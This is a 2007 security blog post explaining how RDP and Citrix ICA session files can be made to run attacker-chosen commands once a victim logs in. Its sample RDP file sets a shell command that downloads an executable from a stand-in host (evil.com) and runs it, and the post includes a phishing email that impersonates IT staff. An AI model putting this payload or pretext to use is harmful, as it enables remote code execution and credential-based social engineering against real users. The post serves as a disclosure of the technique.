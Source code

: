 ```yaml
---
title: Remote Desktop Command Fixation Attacks
author: pdp
date: Wed, 10 Oct 2007 11:00:42 GMT
template: post.jade
---
```


The attack is rather simple. All the attacker needs to do is to compose a malicious RDP (for Windows Terminal Services) or ICA (for CITRIX) file and send it to the victim. The victim is persuaded to open the file by double clicking on it. When the connection is established, the user will enter their credentials to login and as such let the attacker in.

Both, RDP and ICA, contain information not only about what servers to connect to but also what applications to launch after successful authentication. These parameters can be modified to suit the attacker needs. In CITRIX we can specify the default shell command by using the parameter **Application** (i.e `Application=calc.exe`). In Windows Remote Desktop we can do exactly the same with the **alternate shell** (i.e `alternate shell:s:cmd.exe`) directive. Here follows a sample ICA file:

    [WFClient]
    Version=1

    [ApplicationServers]
    Connection To Citrix Server=

    [Connection To Citrix Server]
    InitialProgram=**some command here**
    Address=_172.16.3.191_

    ScreenPercent=0

    In Windows Terminal Services, the same can be achieved with the following example:

    screen mode id:i:1
    desktopwidth:i:800
    desktopheight:i:600
    session bpp:i:16
    full address:s:_172.16.3.191_
    compression:i:1
    keyboardhook:i:2
    alternate shell:s:**some command here**
    shell working directory:s:_C:\_
    bitmapcachepersistenable:i:1

    This is all that the attacker needs to know. Let's have a step-by-step look at the attack structure, shall we:

1.  **Compose a malicious Remote Desktop session file:**
    The following example instructs TFTP to connect to **evil.com** and retrieve a file called **evil.exe**. Once the download is completed, the attacker executes **evil.exe** and subsequently terminates the session:
    screen mode id:i:1
    desktopwidth:i:800
    desktopheight:i:600
    session bpp:i:16
    full address:s:_172.16.3.191_
    compression:i:1
    keyboardhook:i:2
    alternate shell:s:**cmd.exe /C "tftp -i evil.com GET evil.exe evil.exe & evil.exe"**
    shell working directory:s:_C:\_
    bitmapcachepersistenable:i:1

2.  **Send email to the victim:**
Here the attacker uses his social engineering skills to persuade the victim into opening and authenticating the session file. This is how it is done:
> Hello John,
> 
>     This is Tim from Tech Department. I was informed that you have some problems with your remote desktop connectivity. I've attached a modified RDP file you can tryout and see if it works. Just double click on the file and login. Your domain credentials should work. Let me know if you have any problems.
> 
>     Tim O'Brian
> Tech Department
3.  **Own it:**
The attacker notices a new entry in his TFTP log files. The operation was successful. Now he can take full advantage of his brand new asset. "Simple tricks always work."

_This is it. This is what I would like to refer to as "Remote Desktop Command Fixation Attacks". They are simple, highly affective, unknown to system administrators (as of yet), and pretty vicious. Keep in mind that the same procedure apply to CITIRX as well._
